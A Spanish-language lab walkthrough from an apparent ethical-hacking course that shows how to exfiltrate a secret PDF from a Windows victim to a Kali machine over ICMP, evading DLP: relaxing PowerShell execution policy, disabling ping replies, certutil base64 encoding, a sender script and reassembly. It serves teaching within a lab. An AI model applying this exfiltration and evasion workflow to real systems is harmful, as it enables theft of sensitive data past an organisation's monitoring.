


# Explotar vulnerabilidad CVE-2015-3306 presente en ProFTPD 1.3.5.

Requisitos:
1. Máquina ***Router-Ubu***.
2. Máquina ***Kali Linux***.
3. Máquina ***Win 11***.

Las organizaciones suelen desplegar sistemas ***DLP***(Data Loss Prevention) en los perimetrales. Su objetivo es detectar cuando alguien intenta sacar del perímetro de la organización algún archivo sensible. 

Generalmente se envían por correo o se suben a repositorios en el Cloud (GSuite, O365, etc) por medio de conexiones ***HTTPS***. Por esta razón, se suele ***inspeccionar el tráfico SSL*** en los firewalls, porque de no ser así, los sistemas ***DLP*** no podrían ver lo que se está transmitiendo.

Pues bien, en este laboratorio aprenderemos a exfiltrar información a través del protocolo ***ICMP***, que generalmente no es inspeccionado, al menos desde el punto de vista del ***DLP***.

## Ejercicio 1: 

La ejecución de scripts maliciosos de PowerShell viene siendo bien detectada por las herramientas de seguridad, como el ***antivirus*** o el ***IDS***.

## Ejercicio 1: Comprobar si la víctima puede usar ICMP.

Asegúrate que en la máquina ***Win 11*** tienes clonado el repo de Github con los archivos del curso. Si no es así o no lo tienes claro, mira el ***Ejercicio 11: Clonado del repositorio de GitHub.*** del ***lab-00.md***.

También debemos asegurarnos de que se permite la ejecución de scripts de ***PowerShell***. Abrimos una terminal de ***PowerShell*** como ***ADMINISTRADOR***. En ellas ejecutamos.
```
Set-ExecutionPolicy -ExecutionPolicy RemoteSigned
```

Cerramos la terminal de administrador de ***PowerShell***.

En este escenario, el equipo ***Víctima*** (***Win 11***) está bajo el control del actor de la amenaza. En este mismo equipo también se encuentra el documento secreto que se desea exfiltrar.

Para conseguirlo vamos a enviar el archivo desde el equipo de la víctima al equipo de ataque (***Kali***) usando el protocolo ***ICMP***.

Lo primero que debemos comprobar es si la víctima puede enviar paquetes ***ICMP***.
Nota: En la realidad, la víctima debería poder hacer ping hacia Internet, donde en una IP Pública se ubicará un servidor de ICMP con el que se va a comunicar. Por temas legales, nos limitamos al entorno de laboratorio, siendo la máquina ***Kali*** el destino de la exfiltración.

En ***Win 11*** abrimos una terminal de ***PowerShell*** y escribimos.
```
ping 192.168.20.9
```

## Ejercicio 2: Crear en servidor ICMP en la máquina de ataque.

Asegúrate que en la máquina ***Kali*** tienes clonado el repo de Github con los archivos del curso. Si no es así o no lo tienes claro, mira el ***Ejercicio 11: Clonado del repositorio de GitHub.*** del ***lab-00.md***.

En la máquina ***Kali*** vamos a levantar un ***servidor ICMP*** mediante un script de ***Python***. Estudiémoslo.
```
nano ~/eHacking_LABS/50/icmp_server.py
```

Vamos a deshabilitar las repuestas de ping en ***Kali***, puesto que el truco consiste en mandar paquetes ICMP desde la víctima, la máquina de ***Kali*** respondería a cada uno de ellos, y no queremos llamar la atención del perimetral.
```
sudo sysctl -w net.ipv4.icmp_echo_ignore_all=1
```

Ejecutamos el servidor ***ICMP***. En la terminal escribimos.
```
sudo python ~/eHacking_LABS/50/icmp_server.py
```

## Ejercicio 3: Codificar el documento secreto y enviarlo.

Para ponérselo más difícil al sistema ***DPM*** vamos a codificar el documento en la máquina víctima (recordemos que el actor de la amenaza tiene su control). Para ello usaremos la herramienta ***CertUtil***.

En la máquina de ***Win 11***, en la terminal de ***PowerShell*** escribimos.
```
cd C:\Users\antonio\eHacking_LABS\50

certutil -encode TopSecret.pdf TopSecret.txt
```

Podemos ver el documento codificado.
```
cat TopSecret.txt
```

Visualizamos el script de ***PowerShell*** que va a enviar el archivo.
```
code ICMPSender.ps1
```

Las líneas más importantes son:
* *18:* IP de la máquina de ***Kali*** que está ejecutando el servidor ***ICMP***.
* *26:* Archivo a exfiltrar codificado con ***CertUtil***.

El código trocea el archivo en bloques de ***1472*** que es el máximo que puede llevar en la carga los paquetes ***ICMP***.

Cerramos ***Visual Studio Code*** y ejecutamos el script.
```
.\ICMPSender.ps1
```

## Ejercicio 4: Comprobar a exfiltración.

El máquina ***Kali*** debemos tener descargado el ***archivoExfiltrado.txt***. Aún necesita postprocesado porque recordemos que ha sido codificado con ***CertUtil*** y hay que retirar la cabecera y el pie.
```
cd ~/eHacking/50

sudo nano archivoExfiltrado.txt
```

Hay que ***eliminar*** la línea que se muestra en la imagen.



Luego pulsamos ***CTRL+W*** y escribimos en el buscador lo siguiente.
```
END CERTIFICATE
```

Eliminamos el pie, tal y como señala la imagen.



Guardamos con ***CTRL+X***, ***Y***. Antes de pulsar ***ENTER*** nos fijamos que el archivo está en formato ***DOS***. Tendrémos que convertirlo a ***Linux***.


Pulsamos ***ENTER*** y en la terminal escribimos el siguiente comando.
```
sudo dos2unix archivoExfiltrado.txt
```

Por último lo descodificamos desde ***Base64*** (que es lo que hizo ***CertUtil***)
```
base64 -d archivoExfiltrado.txt > archivoExfiltrado.pdf
```

Ya solo queda ver el resultado.
```
open archivoExfiltrado.pdf
```

Para finalizar no olvidemos volver a habilitar la respuesta de ***ICMP***.
```
sudo sysctl -w net.ipv4.icmp_echo_ignore_all=0
```


